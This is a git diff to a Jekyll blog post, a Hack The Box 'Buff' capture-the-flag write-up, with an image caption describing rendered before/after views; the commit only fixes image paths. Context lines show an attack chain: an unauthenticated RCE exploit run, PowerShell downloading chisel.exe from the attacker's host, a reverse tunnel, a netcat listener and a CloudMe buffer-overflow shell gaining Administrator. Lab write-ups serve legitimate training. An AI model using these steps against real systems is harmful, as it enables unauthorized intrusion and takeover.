

Before and after one commit to abacu5/abacu5.github.io, a Jekyll site: the page built from _posts/2026-07-16-htb-buff.md, in a window 1280 px wide. Shown: the part 833-2735 px from the top of the page at 82% size, without its empty margins (242-1037 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Fix image paths to be site-root-relative

````diff
--- a/_posts/2026-07-16-htb-buff.md
+++ b/_posts/2026-07-16-htb-buff.md
@@ -33,7 +33,7 @@ PORT     STATE SERVICE REASON       VERSION
 |_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
 ```
 
-![Nmap scan results](assets/img/buff/01-nmap-scan.png)
+![Nmap scan results](/assets/img/buff/01-nmap-scan.png)
 
 The scan reveals a single web service on port **8080**, running **Apache 2.4.43 on Windows (Win64)** with **PHP 7.4.6** and **OpenSSL 1.1.1g**. The page title, *"mrb3n's Bro Hut,"* along with the Win64/PHP/Apache stack, strongly suggests a XAMPP-hosted Windows web application. With only one service exposed, the web application on port 8080 becomes our primary attack surface.
 
@@ -43,7 +43,7 @@ The scan reveals a single web service on port **8080**, running **Apache 2.4.43
 
 Browsing to `http://10.129.25.107:8080` presents a gym/fitness-themed website titled "About Fitness," with a login form and navigation for Home, Package, Facilities, About, and Contact. The footer credits **Projectworlds.in**.
 
-![Site landing page](assets/img/buff/02-site-landing.png)
+![Site landing page](/assets/img/buff/02-site-landing.png)
 
 That footer attribution is the key detail — Projectworlds is a well-known source of student/portfolio-style PHP web applications, several of which have publicly documented vulnerabilities. This narrows our focus toward identifying the exact application and version in use.
 
@@ -55,7 +55,7 @@ We ran `ffuf` against the target using the DirBuster medium wordlist with a `.ph
 ffuf -u http://10.129.25.107:8080/FUZZ -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -e .php -t 100
 ```
 
-![ffuf directory enumeration](assets/img/buff/03-ffuf-results.png)
+![ffuf directory enumeration](/assets/img/buff/03-ffuf-results.png)
 
 The scan returned a large number of soft-404 false positives (the server returns `200` for nonexistent paths), which we filtered out manually. The genuine hits of interest were:
 
@@ -80,7 +80,7 @@ Visiting `upload.php` directly triggered a PHP notice that leaked the full serve
 Notice: Undefined index: id in C:\xampp\htdocs\gym\upload.php on line 4
 ```
 
-![Path disclosure from upload.php](assets/img/buff/04-path-disclosure.png)
+![Path disclosure from upload.php](/assets/img/buff/04-path-disclosure.png)
 
 This confirms two important things:
 
@@ -101,7 +101,7 @@ Gym Management System 1.0 - Unauthenticated Remote Code Execution    | php/webap
 GYM MS - GYM Management System - Cross Site Scripting (Stored)       | php/webapps/51777.txt
 ```
 
-![searchsploit results](assets/img/buff/05-searchsploit.png)
+![searchsploit results](/assets/img/buff/05-searchsploit.png)
 
 The **Unauthenticated Remote Code Execution** exploit (`48506.py`) matched our findings exactly — it targets `upload.php` and its lack of session checks.
 
@@ -139,8 +139,8 @@ Then executed the exploit:
 python2 48506.py 'http://10.129.25.107:8080/'
 ```
 
-![Webshell hostname output](assets/img/buff/06-webshell-hostname.png)
-![Webshell whoami output](assets/img/buff/07-webshell-whoami.png)
+![Webshell hostname output](/assets/img/buff/06-webshell-hostname.png)
+![Webshell whoami output](/assets/img/buff/07-webshell-whoami.png)
 
 ```
 C:\xampp\htdocs\gym\upload> hostname
@@ -172,7 +172,7 @@ C:\xampp\htdocs\gym\upload> dir C:\
 16/06/2020  16:40    <DIR>          xampp
 ```
 
-![Environment enumeration](assets/img/buff/08-ipconfig-dir.png)
+![Environment enumeration](/assets/img/buff/08-ipconfig-dir.png)
 
 A standard Windows 10 host named **BUFF**, part of the `.htb` domain suffix, with a standard XAMPP install — consistent with our earlier path disclosure.
 
@@ -184,7 +184,7 @@ An initial `netstat -ano` sweep showed only the expected externally-facing servi
 C:\xampp\htdocs\gym\upload> dir /s /b C:\Users\shaun\*.exe
 ```
 
-![CloudMe installer files](assets/img/buff/09-cloudme-files.png)
+![CloudMe installer files](/assets/img/buff/09-cloudme-files.png)
 
 ```
 C:\Users\shaun\AppData\Local\Packages\...\Cache\WEIKCYS4\CloudMe_1112[1].exe
@@ -201,7 +201,7 @@ C:\xampp\htdocs\gym\upload> tasklist
 CloudMe.exe                   2592                            0     26,960 K
 ```
 
-![tasklist output showing CloudMe.exe](assets/img/buff/10-tasklist-cloudme.png)
+![tasklist output showing CloudMe.exe](/assets/img/buff/10-tasklist-cloudme.png)
 
 A follow-up `netstat -ano` confirmed:
 
@@ -236,7 +236,7 @@ python3 -m http.server 8000
 powershell -c "Invoke-WebRequest -Uri http://10.10.14.237:8000/chisel.exe -OutFile C:\xampp\htdocs\gym\upload\chisel.exe"
 ```
 
-![Chisel download and setup](assets/img/buff/11-chisel-setup.png)
+![Chisel download and setup](/assets/img/buff/11-chisel-setup.png)
 
 **4. Start a Chisel server on Kali in reverse mode:**
 
@@ -250,7 +250,7 @@ chisel server -p 8001 --reverse &
 cmd /c start /b C:\xampp\htdocs\gym\upload\chisel.exe client 10.10.14.237:8001 R:8888:127.0.0.1:8888
 ```
 
-![Chisel server log confirming tunnel established](assets/img/buff/12-chisel-tunnel-confirmed.png)
+![Chisel server log confirming tunnel established](/assets/img/buff/12-chisel-tunnel-confirmed.png)
 
 ```
 2026/07/16 12:09:35 server: Reverse tunnelling enabled
@@ -310,7 +310,7 @@ s.send(buf)
 nc -lvnp 4444
 ```
 
-![Netcat listener waiting](assets/img/buff/13-nc-listener.png)
+![Netcat listener waiting](/assets/img/buff/13-nc-listener.png)
 
 **4. Trigger the overflow** through the Chisel tunnel:
 
@@ -318,7 +318,7 @@ nc -lvnp 4444
 python3 buff_exploit.py
 ```
 
-![Shell caught, whoami confirms Administrator](assets/img/buff/14-admin-shell.png)
+![Shell caught, whoami confirms Administrator](/assets/img/buff/14-admin-shell.png)
 
 ```
 C:\Windows\system32>whoami
@@ -339,7 +339,7 @@ C:\Users\Administrator\Desktop> type root.txt
 <root_flag>
 ```
 
-![User and root flags](assets/img/buff/15-flags.png)
+![User and root flags](/assets/img/buff/15-flags.png)
 
 ---
 
````
